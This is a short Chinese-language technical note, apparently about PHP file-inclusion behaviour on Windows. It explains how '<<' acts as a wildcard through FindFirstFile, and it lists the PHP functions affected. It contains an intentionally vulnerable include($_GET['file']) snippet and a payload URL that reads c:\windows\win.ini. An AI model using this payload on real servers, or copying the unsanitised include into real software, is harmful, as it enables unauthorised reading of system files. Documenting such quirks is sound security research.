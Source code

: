 存在文件包含时，php在windows下包含文件，能使用`<<`当通配符用, 使用`<<`符号相当于使用`*`号通配符。

*   样例

```
<?php
include($_GET['file']);
?> 
```

payload: `http://localhost/file.php?file=c:\windows\win<<`

在没有`base_dir`限制的情况下，会读到`c:\windows\win.ini`文件

这个问题是由Windows APi FindFirstFile函数引起的，这是FindFirstFile的一个特性，查看php原代码发现在win32\\readdir.c，正是调用了FindFirstFile来操作文件的。因此受影响的并不止include函数。

*   受影响函数

```
include
include_once
require
require_once
fopen
copy
file_get_contents
file_put_contents
readfile
mkdir
move_uploaded_file 
```
